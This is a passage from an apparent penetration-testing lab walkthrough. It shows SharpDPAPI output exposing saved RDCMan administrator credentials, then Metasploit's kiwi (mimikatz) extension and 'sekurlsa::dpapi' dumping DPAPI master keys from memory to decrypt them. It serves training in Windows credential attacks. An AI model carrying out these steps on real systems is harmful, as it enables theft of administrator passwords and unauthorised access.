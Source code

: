 ```
    Accessed      : 6/24/2021 6:57:31 AM
    Modified      : 6/24/2021 6:57:31 AM

        Default Logon Credentials

          Profile Name : Custom
            UserName   : ATTACKDEFENSE\Administrator

      C:\Users\Administrator\Documents\Production-Server.rdg

        Cred Profiles

          Profile Name : ATTACKDEFENSE\Administrator
            UserName   : ATTACKDEFENSE\Administrator
            Password   : MasterKey needed - {5cd55013-c838-40c4-95a9-26ab076e5abb} ←

        Servers

          Name         : 10.4.22.37
          Cred Profile : ATTACKDEFENSE\Administrator


SharpDPAPI completed in 00:00:05.7758214
```

_Exit the session to return to the Metasploit console and load the `kiwi` extension, which includes tools for extracting DPAPI keys._

`exit`

`load kiwi`:
```
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows) ←
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

_Use the `dpapi` command within the `kiwi` extension to retrieve the MasterKey needed to decrypt the password._

`kiwi_cmd sekurlsa::dpapi`:
```
Authentication Id : 0 ; 177492 (00000000:0002b554)
Session           : Interactive from 1
User Name         : Administrator
Domain            : ATTACKDEFENSE
Logon Server      : ATTACKDEFENSE
Logon Time        : 8/21/2024 7:10:09 AM
SID               : S-1-5-21-3688751335-3073641799-161370460-500
	 [00000000]
	 * GUID      :	{d62adb8e-0038-40c3-816e-c322c847aa04}
	 * Time      :	8/21/2024 7:10:20 AM
	 * MasterKey :	55574afbc13c7c769d1ceb655b4ef2042dd7d3d6b947d849f4cdd33031997e5fa4fc05738eb10cc1ab3b50582bf3a250bbe2b8b531a7a91bffb210c9b5045598
	 * sha1(key) :	f0a27c9188754a3658c826f3e4eaf8dbb3f6d823
	 [00000001]
	 * GUID      :	{5cd55013-c838-40c4-95a9-26ab076e5abb} ←
	 * Time      :	8/21/2024 7:12:44 AM
	 * MasterKey :	be8dabf90b25d127a8b0421c888f5c23c81f8254c25fa861df4c0e61ed665f79dcac5809c793a5a1b65f3604ec1dd216f74badc6e06b04ebff5b87390ce0c794
```